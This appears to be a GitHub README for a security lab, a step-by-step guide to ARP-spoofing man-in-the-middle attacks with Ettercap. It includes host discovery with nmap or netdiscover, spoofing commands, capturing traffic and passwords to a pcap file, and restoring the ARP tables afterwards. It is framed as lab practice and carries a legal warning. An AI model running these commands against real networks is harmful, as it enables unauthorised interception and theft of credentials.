 # ⚠️ MITM Attack with Ettercap (CLI Mode)

> This guide demonstrates how to perform a Man-in-the-Middle (MITM) attack using `ettercap` in **command-line mode**, for **educational purposes** in a **controlled lab environment**.

---

## 📦 Requirements

- OS: Kali Linux, Parrot OS, or any Linux distro with `ettercap-text-only`
- Tools: Ettercap CLI, Netdiscover or Nmap
- Setup:
  - Attacker: Kali Linux
  - Victim: Any host on the same LAN
  - Gateway: Your router

---

## 📥 Installation

```bash
sudo apt update
sudo apt install ettercap-text-only netdiscover nmap
```

##🌐 Step 1: Identify Network Interface
```bash
ip a
```
Example interface: eth0, wlan0, etc.

---
##🔍 Step 2: Scan for Hosts
###Option 1: Netdiscover
```bash
sudo netdiscover -i eth0
```

---
###Option 2: Nmap
```bash
sudo nmap -sn 192.168.0.0/24
```
Note the IPs of:

Victim device → VICTIM_IP

Gateway (router) → GATEWAY_IP

Your interface → INTERFACE

##🧪 Step 3: Perform ARP Spoofing (MITM)
```bash
sudo ettercap -T -M arp:remote /VICTIM_IP/ /GATEWAY_IP/ -i INTERFACE
```

##Example:
```bash
sudo ettercap -T -M arp:remote /192.168.0.105/ /192.168.0.1/ -i eth0
```
---
## :Flags Explained:

-T: Text (CLI) mode

-M arp:remote: ARP spoofing for both directions

/target1/ /target2/: Victim and Gateway IPs

-i: Interface to use

---
##🔐 Step 4: Capture Passwords (Optional)
```bash
sudo ettercap -T -M arp:remote -w mitm_log.pcap /VICTIM_IP/ /GATEWAY_IP/ -i INTERFACE
```
##Open the log with Wireshark:

```bash
wireshark mitm_log.pcap
```

---
##🔚 Step 5: Stop the Attack
To quit Ettercap, press q.

To restore ARP tables manually:
```bash
sudo ettercap -T -P restore_arp -i INTERFACE
```
---

##⚠️ Legal Warning
This guide is provided for educational and authorized penetration testing only.
Unauthorized access to networks or data is illegal and punishable by law.
Always get written permission before testing any network.

---

##📌 Author

Created by:Nahid Chowdury- CSE, DU

For: Ethical Hacking / Cybersecurity Lab Practice


